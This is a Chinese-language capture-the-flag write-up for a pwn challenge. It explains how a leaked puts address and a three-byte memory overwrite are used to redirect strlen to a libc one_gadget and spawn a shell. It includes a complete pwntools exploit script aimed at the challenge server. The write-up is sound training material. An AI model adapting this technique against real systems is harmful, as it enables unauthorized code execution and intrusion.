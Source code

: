 # 挑战简介 
学累了吧，来玩个游戏

# 思路
首先题目直接给了puts函数的地址，并且首先读入我们的输入并转化为int64整数

之后在循环函数中读取三个字符，存于bullets数组，然后修改指定内存的低3个字节  

因此我们可以控制v6的值

<img width="712" height="107" alt="image" src="https://github.com/user-attachments/assets/96d9bd45-89e6-428e-99a4-c86b5ece326e" />

不允许数组的前两个元素同时为 0xc5 和 0xf2 ，或者 0x22 和 0xf3 ，或者 0x8c 和 0xa3  

简单来说就是限制了gadget  

之后通过获取libc版本，获得基址之后，修改strlen函数并再次调用，来实现one_gadget的跳转并且shell的利用    
```
from pwn import *
from LibcSearcher import *
context(arch = "amd64",os = 'linux',log_level = 'debug')

#context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show',28195)

elf = ELF('D:\edge 下载\pwn')

io.recvuntil(b'0x')

put_addr = int(io.recv(12),16)

libc = LibcSearcher('puts', put_addr)

libc_base = put_addr - libc.dump('puts')

strlen = libc_base + 0x3eb0a8

s = str(strlen)

io.sendline(s)

one_gadget = libc_base + 0xe54fe

for _ in range(3):
    io.sendlineafter("biang!\n", chr(one_gadget & 0xff))
    one_gadget >>= 8

io.interactive()
```
